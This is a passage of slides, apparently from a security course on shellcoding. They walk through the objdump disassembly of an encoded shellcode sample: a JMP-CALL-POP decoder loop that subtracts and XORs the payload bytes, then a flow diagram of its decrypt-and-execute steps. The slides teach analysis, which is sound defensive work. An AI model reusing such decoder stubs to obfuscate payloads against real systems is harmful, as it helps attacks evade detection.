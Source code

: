 *It's strange: there isn't a shellcode, I don't see smth like `/bin/sh`, wtf ???*

---

## Shellcoding [4/7 analysis | 1/2 flow-control]

.left-column[
### .twitch-emote.small[DOOMGuy] brainstorming ..

- What are the **macro-steps**?
]
.right-column[
```objdump-c
0:   29 c9                  sub    %ecx,%ecx
2:   74 14                  je     0x18
4:   5e                     pop    %esi
5:   b1 14                  mov    $0x14,%cl
7:   46                     inc    %esi
8:   8b 06                  mov    (%esi),%eax
a:   83 e8 09               sub    $0x9,%eax
d:   34 9f                  xor    $0x9f,%al
f:   32 46 ff               xor    -0x1(%esi),%al
12:  88 06                  mov    %al,(%esi)
14:  e2 f1                  loop   0x7
16:  eb 05                  jmp    0x1d
18:  e8 e7 ff ff ff         call   0x4
1d:  31 70 aa               xor    %esi,-0x56(%eax)
20:  92                     xchg   %eax,%edx
21:  d7                     xlat   %ds:(%ebx)
22:  2d ce af e1 a8         sub    $0xa8e1afce,%eax
27:  cc                     int3
28:  8d a8 e1 db 9d a1      lea    -0x5e62241f(%eax),%ebp
2e:  81                     .byte  0x81
2f:  fe                     (bad)
30:  ba                     .byte  0xba
31:  db                     .byte  0xdb
```
]

---

## Shellcoding [4/7 analysis | 2/2 flow-control]

<img uml="
(*) --> 1: Initialize
    --> 2: Jump to the decryptor
    --> 3: Perform decryption
    --> 4: Jump to the decrypted shellcode
    --> 5: Execute the shellcode
    --> (*)
">

---